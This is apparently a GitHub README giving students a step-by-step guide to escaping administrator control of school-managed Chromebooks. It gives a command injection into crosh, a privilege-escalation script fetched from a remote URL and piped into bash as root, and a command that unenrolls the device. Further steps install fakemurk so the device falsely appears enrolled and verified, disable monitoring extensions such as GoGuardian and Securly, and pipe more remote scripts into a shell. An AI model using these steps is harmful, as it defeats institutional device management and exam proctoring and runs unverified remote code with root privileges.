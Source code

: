 # The ultimate exploit guide

For this set of exploits, you will need one (or two, if you want to use the unenrollment exploit easily) 8gb or larger USB drive(s), and a chromebook with a board that's either on chrome100 or cros.tech. There's no need to have your chromebook be compatible with sh1mmer, because this exploit uses only recovery images and traditional exploits.

If you're using one USB drive, then flash it with a copy of ChromeOS 81 for your chromebook's board. If you're using two drives, flash the first one with the same file. If this isn't your first time running this exploit, then you should already have the required recovery drives.

Plug your cros 81 drive into your chromebook and press `Esc+Refresh+Power`. Wait for the process to finish, then reboot and log in as normal, with your school account. Press `Ctrl+Alt+T`. If crosh opens, you can proceed to the next step. Otherwise, use LtBEEF or some other extension-removal exploit to disable whatever extension might be blocking crosh.

Inside of crosh, type in `set_cellular_ppp \';bash;exit;\'`. You should be dropped into a bash prompt. We now have to run a privelige escalation exploit, which is also hosted in this repo (https://github.com/rainestorme/resources/tree/main/80.sh). Run: `bash <(curl https://raw.githubusercontent.com/rainestorme/resources/main/80.sh)` and wait for it to finish.

You should be dropped into a *root* bash prompt (please, please, hold your applause). You now have two choices. You can:

- Unenroll your Chromebook, and, optionally, fakemurk it so that it appears to be verified

     or

- Leave your Chromebook in verified mode and run cedr

## Unenrollment and fakemurk

If you want to unenroll your Chromebook, just run: `vpd -i RW_VPD -s check_enrollment=0`. From there, press `Esc+Refresh+Power` and press `Ctrl+D`. Press enter, then wait for the chromebook to reboot. Press `Ctrl+D` if a screen shows up about verification being off, and wait for the chromebook to reboot in verified mode. All data should be cleared, and your chromebook will be unenrolled. You can setup your chromebook as normal, and sign in with a home account.

To fakemurk your Chromebook, you have to be unenrolled first. Update your Chromebook (it'll only update to v105) and press `Esc+Refresh+Power`. Press `Ctrl+D`, then enter. Wait the 5 minutes for your Chromebook to enter developer mode, then proceed with typical setup. When you get logged in, press `Ctrl+Alt+T` and type `shell`.

Before you do anything else, however, you need to set up some failsafes. Fakemurk in general is pretty tempramental, and if you mess something up you could easily destroy your installation of ChromeOS. Grab the USB drive you used earlier, or grab the second USB drive if you're using two drives. Install the Chromebook Recovery Tool from the chrome webstore and flash the drive with a v105 image, Just In Case You Fuck It Up™.

We're also going to install MrChromeBox's RW_LEGACY firmaware. Run:

```sh
cd; curl -LOk mrchromebox.tech/firmware-util.sh && sudo bash firmware-util.sh
```

And then press `1` and then enter. Wait for it to finish and proceed with the next step, running:

```sh
sudo su
bash <(curl -SLk https://github.com/MercuryWorkshop/fakemurk/releases/latest/download/fakemurk.sh)
```

If the last command errors, press `Esc+Refresh+Power` and recover your chromebook with the v105 drive to try again. Keep trying until it works.

Follow the instructions (be sure to respond "Y" for emergency backups, they're useful in a pinch) and wait for your Chromebook to reboot. Once it reboots, press `Ctrl+D` to continue the boot process. Wait for your Chromebook to enroll. If everything works correctly (as it rarely does) then you should be enrolled as normal, but will have the fakemurk components installed on your device. If enrollment takes a while and then complains about a missing certificate, don't panic! This is normal. Just press `Refresh+Power` and wait for the warning to pop up. Instead of pressing `Ctrl+D`, press space and enter to **disable developer mode**. **Immediately after pressing these keys, press `Refresh+Power`**. This will result in a "ChromeOS is missing or damaged" screen. Once again, this is supposed to happen. Press `Esc+Refresh+Power` and `Ctrl+D` again, **re-enabling developer mode**. There's no five-minute wait this time around, because the rootfs is already unverified and doesn't need to be changed. When you get back to the warning, press `Ctrl+D` to boot. Try to enroll now, and after a short wait, it should work. 

You should be able to use your Chromebook as an enrolled device, take enrolled tests, and do a ton of other fun things. Sometime in the future, I plan to release a tool allowing the opening of extra browser tabs during kiosk tests (because I know you skids would love that), but that's irrellevant.

Open up crosh (`Ctrl+Alt+T`). You might notice that it's been replaced by "mush", the fakemurk replacement for crosh. You can do a lot from here, but a few key options stand out. Obviously, you want to disable certain extensions, such as GoGuardian, Gopher Buddy and Securly. I don't personally reccomend using "Soft Disable Extensions", as it uses a lot of CPU. It's much easier to hard disable extensions and re-enable them later.

One of my favorite capabilities of fakemurk is to run an entire linux desktop environment side-by-side ChromeOS with Crouton. Select the option and wait for it to download the chroot environment to the device. Once you set a password and install the desktop, you can drop into a root bash shell and type `startxfce4` to start the crouton desktop. While you're running the desktop, you can press `Ctrl+Shift+Forward` and `Ctrl+Shift+Back` to get back and forth between the desktop environments.

Policies are also modified, courtesy of Pollen. You can do a lot of things that are normally restricted, such as accessing the webstore and downloading extensions, and installing unsigned apks.

## Cedr

Cedr is my own little pet project, allowing you to run Crouton on an enrolled Chromebook. The issue with Cedr is that it requires an external drive to store the chroot on. I reccomend using a MicroSD card for chroot storage, but a USB drive can also be used.

Insert the storage device (USB drive/MicroSD card) and find its block device. Run `fdisk -l` and try to identify the device you plugged in.

Cedr allows you to choose any desktop supported by Crouton in this step, but for the sake of simplicity I'll go with xfce4 for this tutorial. Run the following commands, replacing `/dev/sdX` with the block device representing your storage device:

```sh
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-bootstrap.sh | bash -s /dev/sdX xfce
bash <(curl http://raw.githubusercontent.com/rainestorme/cedr/main/cedr-umount.sh)
```

The drive should be unmounted automatically, and you can remove it.

To activate the desktop environment, you can plug in the device and identify its block device again (as above), or, if you never unplugged it from the last step, use the same one. Run:

```sh
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-mount.sh | bash -s /dev/sdX
```

You can freely swap back and forth between ChromeOS and Cedr at will. Once you're finished, log out of your session and run:

```sh
bash <(curl http://raw.githubusercontent.com/rainestorme/cedr/main/cedr-umount.sh)
```

